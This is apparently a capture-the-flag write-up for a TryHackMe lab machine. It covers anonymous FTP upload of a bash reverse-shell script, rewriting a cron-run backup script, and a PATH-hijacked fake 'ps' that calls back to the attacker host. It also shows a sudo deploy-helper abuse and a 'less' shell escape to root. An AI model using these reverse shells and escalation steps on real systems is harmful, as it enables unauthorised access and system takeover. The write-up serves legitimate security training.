

# Jump

## Introduction



Append the received IP into `/etc/hosts`

```bash
10.49.166.209   jump.thm
```

## Port Scan

We can first run a simple port scan

```bash
$ rustscan -a jump.thm --ulimit 5000 -- -A -oN nmap.log

...

Scanning jump.thm (10.49.166.209) [2 ports]
Discovered open port 21/tcp on 10.49.166.209
Discovered open port 22/tcp on 10.49.166.209

...

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 115      123          4096 Apr 30 06:00 incoming [NSE: writeable]
|_drwxr-xr-x    4 115      123          4096 Jun 09 08:22 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.129.139
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 25:86:09:69:bf:76:49:c4:d1:6a:d9:d6:d5:62:0c:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH5aMp8yqy4TTtj7kCs/5SCDgAAuAk4/OaqVJ2Br7j0fQ8E2dfZZzOE7QVgs8nCXpg937lWa8jFwpfDrV92DrS8=
|   256 27:8c:4b:7f:25:6a:bb:66:34:38:4a:1b:45:61:47:2e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHx+GBe2S8ag3cgfBIhRzXHhh0OeglHhrrrSQ8In5rOu
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are only FTP (port 21) and SSH (port 22) open.

However it seems that FTP allow anonymous login. We might be able to get something useful

## FTP (Port 21)

inside the FTP files, we found some directories and a file called `README.txt`

```bash
└─$ ftp anonymous@jump.thm
Connected to jump.thm.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||21674|)
150 Here comes the directory listing.
drwxrwxrwx    2 115      123          4096 Apr 30 06:00 incoming
drwxr-xr-x    4 115      123          4096 Jun 09 08:22 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||13025|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             139 Feb 02  2026 README.txt
drwxr-xr-x    2 115      123          4096 Feb 01  2026 archive
drwxrwxrwx    2 115      123          4096 Feb 01  2026 uploads
226 Directory send OK.

```

The `README.txt` indicate that files will be processed if they are uploaded to the `incoming` directory

```bash
[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.

```

## `recon_user`

We can try to upload a reverse shell (`shell.sh`)

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.129.139/1234 0>&1
```

Then we can use the `put` command in FTP client 

```bash
ftp> cd ../incoming
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||10883|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> put shell.sh
local: shell.sh remote: shell.sh
229 Entering Extended Passive Mode (|||63830|)
150 Ok to send data.
100% |***********************************************************************************************************************************|    51      296.45 KiB/s    00:00 ETA
226 Transfer complete.
51 bytes sent in 00:00 (0.22 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||43669|)
150 Here comes the directory listing.
-rw-r--r--    1 115      123            51 Aug 25 15:09 shell.sh
226 Directory send OK.
```

Then we can open our listening port. After a while, the connection will be established

```bash
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.129.139] from (UNKNOWN) [10.49.166.209] 43932
bash: cannot set terminal process group (1438): Inappropriate ioctl for device
bash: no job control in this shell
recon_user@tryhackme-2404:~$ id
id
uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
```

And we get the `recon_user` flag

```bash
recon_user@tryhackme-2404:~$ ls
flag.txt  shell.sh
```

## `/dev_user`

Because we belongs to the `dev_user` group, we can already read the flag, yet it is more important to escalate our privileges at this moment.

```bash
recon_user@tryhackme-2404:~$ find / -type f -user dev_user 2> /dev/null
/tmp/recon_backup.tgz
/opt/dev/backup.sh
/opt/dev/bin/ps
/home/dev_user/flag.txt
/home/dev_user/.profile
/home/dev_user/.bashrc
/home/dev_user/.selected_editor
/home/dev_user/.bash_logout
recon_user@tryhackme-2404:~$ 
```

The above `find` result also shows a interesting file called `/opt/dev/backup.sh`

```bash
econ_user@tryhackme-2404:~$ cat /opt/dev/backup.sh
#!/bin/bash
tar -czf /tmp/recon_backup.tgz /home/recon_user
recon_user@tryhackme-2404:~$ ls -la /opt/dev/backup.sh
-rwxrwxr-x 1 dev_user dev_user 60 Jun  9 09:03 /opt/dev/backup.sh
```

Great, it seems we can edit the `backup.sh` to do what we wanted. However if we make it a reverse shell and try to launch it on our own, the new shell will still have the same privilege as `recon_user`.

So we will need to check if backup.sh will run periodically. I uploaded https://github.com/dominicbreuker/pspy using Python3 `HTTP.Server` module.

When we execute it, we will see it will run `healthcheck` and `backp.sh`

```bash
recon_user@tryhackme-2404:~$ ./pspy64 

...

2026/08/25 15:14:42 CMD: UID=1003  PID=1725   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:14:42 CMD: UID=1003  PID=1726   | grep -v grep 
2026/08/25 15:14:42 CMD: UID=1003  PID=1728   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:14:47 CMD: UID=1003  PID=1729   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:14:47 CMD: UID=1003  PID=1730   | grep -v grep 
2026/08/25 15:14:47 CMD: UID=1003  PID=1731   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:14:48 CMD: UID=0     PID=1732   | 
2026/08/25 15:14:52 CMD: UID=1003  PID=1734   | 
2026/08/25 15:14:52 CMD: UID=1003  PID=1733   | ps aux 
2026/08/25 15:14:52 CMD: UID=1003  PID=1735   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:14:57 CMD: UID=1003  PID=1737   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:14:57 CMD: UID=1003  PID=1736   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:14:57 CMD: UID=1003  PID=1738   | /bin/bash /usr/local/bin/healthcheck 
2026/08/25 15:15:01 CMD: UID=0     PID=1741   | /usr/sbin/CRON -f -P 
2026/08/25 15:15:01 CMD: UID=0     PID=1740   | /usr/sbin/CRON -f -P 
2026/08/25 15:15:01 CMD: UID=0     PID=1739   | /usr/sbin/CRON -f -P 
2026/08/25 15:15:01 CMD: UID=0     PID=1742   | /bin/sh -c command -v debian-sa1 > /dev/null && debian-sa1 1 1 
2026/08/25 15:15:01 CMD: UID=0     PID=1744   | /bin/sh -c command -v debian-sa1 > /dev/null && debian-sa1 1 1 
2026/08/25 15:15:01 CMD: UID=0     PID=1743   | /usr/sbin/CRON -f -P 
2026/08/25 15:15:01 CMD: UID=0     PID=1745   | /usr/sbin/CRON -f -P 
2026/08/25 15:15:01 CMD: UID=1002  PID=1746   | /bin/bash /opt/dev/backup.sh 
2026/08/25 15:15:01 CMD: UID=1002  PID=1747   | /bin/bash /opt/dev/backup.sh 
2026/08/25 15:15:01 CMD: UID=1001  PID=1748   | /bin/sh -c /bin/bash /opt/recon/scan_uploads.sh 
2026/08/25 15:15:01 CMD: UID=1001  PID=1750   | /bin/bash /srv/ftp/incoming/shell.sh 
2026/08/25 15:15:01 CMD: UID=1002  PID=1749   | 
2026/08/25 15:15:01 CMD: UID=1001  PID=1752   | /bin/bash /srv/ftp/incoming/shell.sh 
```

The Cron task is run with the permission of UID of 1002, which is `dev_user`

```bash
recon_user@tryhackme-2404:~$ cat /etc/passwd|grep 1002
dev_user:x:1002:1002::/home/dev_user:/bin/sh
```

With this, we can finally write the reverse shell script to `/opt/dev/backup.sh`

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.129.139/1235 0>&1
```

And we get the second reverse shell and can finally read the `dev_user` flag

```bash
└─$ nc -lnvp 1235
listening on [any] 1235 ...
connect to [192.168.129.139] from (UNKNOWN) [10.49.166.209] 49788
bash: cannot set terminal process group (2017): Inappropriate ioctl for device
bash: no job control in this shell
dev_user@tryhackme-2404:~$ whoami
whoami
dev_user
```

## `monitor_user`

The `dev_user` is in the `dev_user` and `devops` group

```bash
dev_user@tryhackme-2404:~$ id
uid=1002(dev_user) gid=1002(dev_user) groups=1002(dev_user),1005(devops)
```

I tried to find any files that belongs to the `devops` group but came in vain. But because we know our next target is `monitor_user`, we can see what files belongs to `monitor_user` that we have access

```bash
dev_user@tryhackme-2404:~$ find / -type f -user monitor_user 2> /dev/null
...
/opt/app/deploy_helper.sh
/usr/local/bin/healthcheck
/var/log/monitor.log
```

The `healthcheck` is not writable 

```bash
dev_user@tryhackme-2404:~$ file /usr/local/bin/healthcheck
/usr/local/bin/healthcheck: Bourne-Again shell script, ASCII text executable
dev_user@tryhackme-2404:~$ ls -la /usr/local/bin/healthcheck
-rwxr-xr-x 1 monitor_user monitor_user 98 Apr 29 10:35 /usr/local/bin/healthcheck
```

The script inside `healthcheck` is simple, run `ps` and find all non-grep processes

```bash
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
	ps aux | grep -v grep
	sleep 5
done
```

Then we have the `deploy_helper.sh`, which just echo and also not writable for us

```bash
dev_user@tryhackme-2404:~$ ls -la /opt/app/deploy_helper.sh
-rwxr-xr-x 1 monitor_user monitor_user 90 Feb  2  2026 /opt/app/deploy_helper.sh
dev_user@tryhackme-2404:~$ cat /opt/app/deploy_helper.sh
#!/bin/bash
echo "[+] Deploy helper running"
echo "[+] Syncing application files"
sleep 2
```

Finally it is the `monitor.log`, which is also not that important

```bash
dev_user@tryhackme-2404:~$ cat /var/log/monitor.log|grep monitor
monitor+   40593  0.0  0.0   7080  2048 ?        S    08:54   0:00 grep important_service
monitor+   40611  0.0  0.0   7080  2048 ?        S    08:55   0:00 grep important_service
monitor+   40646  0.0  0.0   7080  2048 ?        S    08:56   0:00 grep important_service
monitor+   40670  0.0  0.0   7080  2048 ?        S    08:57   0:00 grep important_service
monitor+   40687  0.0  0.0   7080  2048 ?        S    08:58   0:00 grep important_service
monitor+   40709  0.0  0.0   2800  1664 ?        Ss   08:59   0:00 /bin/sh -c PATH=/home/dev_user/bin:/usr/local/bin:/usr/bin /usr/local/bin/healthcheck >> /var/log/monitor.log 2>&1
monitor+   40715  0.0  0.0   7740  3200 ?        S    08:59   0:00 /bin/bash /usr/local/bin/healthcheck
monitor+   40718  100  0.1  11320  4224 ?        R    08:59   0:00 ps aux
monitor+   40732  0.0  0.0   2800  1664 ?        Ss   09:00   0:00 /bin/sh -c PATH=/home/dev_user/bin:/usr/local/bin:/usr/bin /usr/local/bin/healthcheck >> /var/log/monitor.log 2>&1
monitor+   40735  0.0  0.0   7740  3200 ?        S    09:00   0:00 /bin/bash /usr/local/bin/healthcheck
monitor+   40739  0.0  0.1  11320  4224 ?        R    09:00   0:00 ps aux
monitor+   40752  0.0  0.0   2800  1664 ?        Ss   09:01   0:00 /bin/sh -c PATH=/home/dev_user/bin:/usr/local/bin:/usr/bin /usr/local/bin/healthcheck >> /var/log/monitor.log 2>&1
monitor+   40755  0.0  0.0   7740  3200 ?        S    09:01   0:00 /bin/bash /usr/local/bin/healthcheck
monitor+   40759  0.0  0.1  11320  4352 ?        R    09:01   0:00 ps aux
monitor+   40783  0.0  0.0   2800  1664 ?        Ss   09:02   0:00 /bin/sh -c PATH=/home/dev_user/bin:/usr/local/bin:/usr/bin /usr/local/bin/healthcheck >> /var/log/monitor.log 2>&1
monitor+   40787  0.0  0.0   7740  3200 ?        S    09:02   0:00 /bin/bash /usr/local/bin/healthcheck
monitor+   40791  0.0  0.1  11320  4352 ?        R    09:02   0:00 ps aux

ls: cannot access '/home/dev_user/bin': Permission denied
ls: cannot access '/home/dev_user/bin': Permission denied
ls: cannot access '/home/dev_user/bin': Permission denied
...
```

Notice that in the above `healthcheck` script, `ps` is used.

Using find, we can find `/opt/dev/bin/ps`

```bash
dev_user@tryhackme-2404:~/bin$ find / -type f -name ps 2> /dev/null
/opt/dev/bin/ps
/snap/core20/2866/usr/bin/ps
/snap/core20/2769/usr/bin/ps
/snap/core/17292/bin/ps
/snap/core/17272/bin/ps
/snap/core18/2999/bin/ps
/snap/core18/2979/bin/ps
/snap/core22/2411/usr/bin/ps
/snap/core22/2292/usr/bin/ps
/usr/bin/ps
/home/dev_user/bin/ps
```

Which if you recall from the early `find` results, it belongs to us

```bash
dev_user@tryhackme-2404:~/bin$ ls -la /opt/dev/bin/ps
-rw-rw-r-- 1 dev_user dev_user 62 Apr 26 18:19 /opt/dev/bin/ps
```

Rewrite the `ps` as follows

```bash
dev_user@tryhackme-2404:/opt/dev/bin$ cat ps
#!/bin/bash
 
setsid /bin/bash -i >& /dev/tcp/192.168.129.139/1236 0>&1
/usr/bin/ps 
```

The normal `/usr/bin/ps` ensure the script can run normally without crashing

```bash
└─$ nc -lvnp 1236
listening on [any] 1236 ...
connect to [192.168.129.139] from (UNKNOWN) [10.49.166.209] 40782
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
monitor_user@tryhackme-2404:/$ id
id
uid=1003(monitor_user) gid=1003(monitor_user) groups=1003(monitor_user)
monitor_user@tryhackme-2404:/$ 
```

Don’t forget to read the flag

```bash
monitor_user@tryhackme-2404:~$ ls
flag.txt
```

## `ops_user`

Use the `find` command again, this time we found a `deploy_helper.sh`

```bash

**monitor_user@tryhackme-2404:~$ find / -type f -user monitor_user 2> /dev/null**

...
/opt/app/deploy_helper.sh
/usr/local/bin/healthcheck
/home/monitor_user/flag.txt
/home/monitor_user/.profile
/home/monitor_user/.bashrc
/home/monitor_user/.lesshst
/home/monitor_user/.bash_logout
/var/log/monitor.log

```

It is writable for us

```bash
monitor_user@tryhackme-2404:~$ ls -la /opt/app/deploy_helper.sh
-rwxr-xr-x 1 monitor_user monitor_user 90 Feb  2  2026 /opt/app/deploy_helper.sh
```

If we check our `sudo` privileges, we can also discover we can use `deploy.sh` as `opt_user`

```bash
monitor_user@tryhackme-2404:~$ sudo -l
Matching Defaults entries for monitor_user on tryhackme-2404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=LESS

User monitor_user may run the following commands on tryhackme-2404:
    (ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```

So the `deploy.sh` will basically execute `deploy_helper.sh`

```bash
monitor_user@tryhackme-2404:~$ ls -la /usr/local/bin/deploy.sh
-rwxr-xr-x 1 ops_user ops_user 55 Feb  2  2026 /usr/local/bin/deploy.sh
monitor_user@tryhackme-2404:~$ cat /usr/local/bin/deploy.sh
#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
```

So we can change the `deploy_helper.sh`

```bash
#!/bin/bash
echo "[+] Deploy helper running"
echo "[+] Syncing application files"
sleep 2
```

To this:

```bash
#!/bin/bash
setsid /bin/bash
```

Now when we execute the `deploy.sh` with the `ops_user` user, we become `ops_user` 

```bash
monitor_user@tryhackme-2404:~$ sudo -u ops_user /usr/local/bin/deploy.sh
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
ops_user@tryhackme-2404:/opt/app$ 
```

Read the flag :)

```bash
ops_user@tryhackme-2404:/opt/app$ cd ~
ops_user@tryhackme-2404:~$ ls
flag.txt
```

## `root`

If we check the `sudo` privileges, this time we get `less`

```bash
ops_user@tryhackme-2404:~$ sudo -l
Matching Defaults entries for ops_user on tryhackme-2404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=LESS

User ops_user may run the following commands on tryhackme-2404:
    (root) NOPASSWD: /usr/bin/less
```

We can read the flag directly

```bash
ops_user@tryhackme-2404:~$ sudo less /root/flag.txt
```

Or we can refer to https://gtfobins.org/gtfobins/less/, and use the build-in CLI to open up a root shell using `!`. So the full command is:

```bash
!/bin/bash
```

Here is how it looks like. Notice that you need to first use `less` on an existing and readable file first

```bash
ops_user@tryhackme-2404:~$ sudo less /etc/hosts
bash: cannot set terminal process group (5560): Inappropriate ioctl for device
bash: no job control in this shell
root@tryhackme-2404:/home/ops_user# 
```
